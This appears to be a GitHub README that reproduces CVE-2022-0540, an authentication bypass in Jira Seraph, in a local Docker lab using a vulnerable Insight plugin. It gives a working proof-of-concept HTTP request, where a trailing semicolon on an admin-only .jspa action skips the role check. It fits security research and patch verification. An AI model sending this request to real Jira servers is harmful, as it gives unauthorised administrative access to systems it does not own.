 
# Authentication Bypass in Jira Seraph Vulnerability (CVE-2022-0540)

## Introduction

Jira Server and Data Center vulnerable to an authentication bypass in its web authentication framework, Jira Seraph.

Although the vulnerability is in the core of Jira, it affects first and third party apps that specify roles-required at the webwork1 action namespace level and do not specify it at an action level. For a specific action to be affected, the action will also need to not perform any other authentication or authorization checks.

## Setup

Run

```bash
docker-compose up
```

and access to `http://localhost:8080`, setup jira using free trial key.

install[insight-asset-management 8.9.4](https://marketplace.atlassian.com/apps/1212137/insight-asset-management/version-history) in `http://localhost:8080/plugins/servlet/upm/marketplace?source=side_nav_find_new_addons`

## Poc

In this case, I have use a trial key for Jira Software. Send request below to get the configuration of insight plugin.

```http
GET /InsightPluginShowGeneralConfiguration.jspa; HTTP/1.1
Host: 10.128.154.152:8080
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36 Edg/101.0.1210.39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

As said by **khoadha**, the affect version of this plugin has below `webwork1 tag`

```xml
<webwork1 key="rlabs_pluginconfig_insight_webactions_config_init" name="Insight Plugin Config Show" class="java.lang.Object" roles-required="admin">
    <actions>
        <action name="com.riadalabs.jira.plugins.insight.channel.web.action.InsightPluginGeneralConfigAction" alias="InsightPluginShowGeneralConfiguration">
            <view name="error">/templates/common/error.vm</view>
            <view name="success">/templates/pluginadmin/general_configure_show.vm</view>
        </action>
    </actions>
</webwork1>
```

but the `roles-required` has been bypass.

## Reference

1. https://jira.atlassian.com/browse/JRASERVER-73650
2. https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/